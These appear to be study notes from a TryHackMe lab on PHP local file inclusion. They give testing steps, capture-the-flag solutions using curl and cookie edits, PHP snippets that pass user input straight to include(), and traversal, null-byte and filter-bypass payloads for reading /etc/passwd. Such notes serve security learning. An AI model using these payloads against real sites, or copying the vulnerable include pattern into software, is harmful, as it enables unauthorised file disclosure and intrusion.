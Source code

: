 With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.
#### Steps for Testing for LFI
1. Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!  
2. Enter a valid input to see how the web server behaves.
3. Enter invalid inputs, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files

#### THM Challenges
1. Capture the flag1 at /etc/flag1 by changing the form method to `POST` in the page source or use a tool like Burp to modify the method of the request POST.
	```bash
	curl -X POST http://IP/challenges/chall1.php? -d "file=/etc/flag1"
	```

2. Capture the flag2 at /etc/flag2 by `cookies`
	- In Browser:
		- `change the cookie value to admin`
	- If successful:
		- `change the cookie value to /etc/flag2`
	- Server adds `/` and `.php`, so remove them from the cookie
		- `change the cookie value to etc/flag2%00`
	- Perform the Directory Traversal:
		- `../../../../etc/flag2%00`

3. Capture the flag3 at /etc/flag3, the website uses the `$_REQUESTS` to accept HTTP requests.
	- In Browser:
		- `/etc/flag3`
	- filters `/`, `3`, and there is the `.php` extension. 
		- `....//....//....//....//etc/flag%33%00` --> didn't work in the browser
	- seems like there's a filtering for the ***GET*** request. So, use CURL and change the GET to ***POST***
		- `curl -X POST http://IP/challenges/chall3.php -d 'file=../../../../etc/flag%33%00' --output -

**Example 1:**
Suppose the web application provides two languages, and the user can select between the `EN` and `AR`, an attacker can exploit this to load sensitive file like `/etc/passwd` by modifying the URL.

Instead of loading `hxxp://webapp.thm/index.php?lang=EN.php or hxxp://webapp.thm/index.php?lang=AR.php` to select a language, we can try `http://webapp.thm/get.php?file=/etc/passwd`
```php
<?PHP 
	include($_GET["lang"]);
?>
```

**Example 2:**
In the following code, the developer decided to specify the ***directory inside the function***.
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```
	In the above code, the developer used the include function to call PHP pages in the languages directory only via lang parameters.
	
	The following will be the exploit: `hxxp://webapp.thm/index.php?lang=../../../../etc/passwd`

### Black Box Testing
We have to identify vulnerabilities without access to source code by observing error messages. When invalid inputs reveal file paths or functions, attackers can exploit them to access sensitive files.
##### Techniques & Examples:
1. **Path Traversal (Directory Escape):**
    - **Example:**        
        ```
        http://webapp.thm/index.php?lang=../../../../etc/passwd
        ```
        - Escapes the `languages/` directory to access sensitive files.
        
2. **Null Byte Injection:**
    - **Example:**        
        ```
        http://webapp.thm/index.php?lang=../../../../../etc/passwd%00
        ```
        - Bypasses the `.php` extension by terminating the string early with `%00`.
        - _Note:_ Doesn't work on PHP 5.3.4 and above.
        
3. **Current Directory Trick:**
    
    - **Example:**
        ```
        http://webapp.thm/index.php?lang=/etc/passwd/
        ```
        - Bypasses filters by staying in the current directory.
        
4. **Bypassing Filters (PHP Substring Replacement):**
    
    - **Example:**
	    ```
	    http://webapp.thm/index.php?lang=....//....//....//etc/passwd
	    ```
        - PHP replaces the first `../` but misses others, allowing access to files.
        
5. **Forced Directory Inclusion:**
    - **Example:**
        ```
        http://webapp.thm/index.php?lang=languages/../../../../etc/passwd
        ```
        - Exploits input restrictions by including the directory in the payload.

These techniques highlight how error messages and poor input validation can expose critical vulnerabilities in web applications.

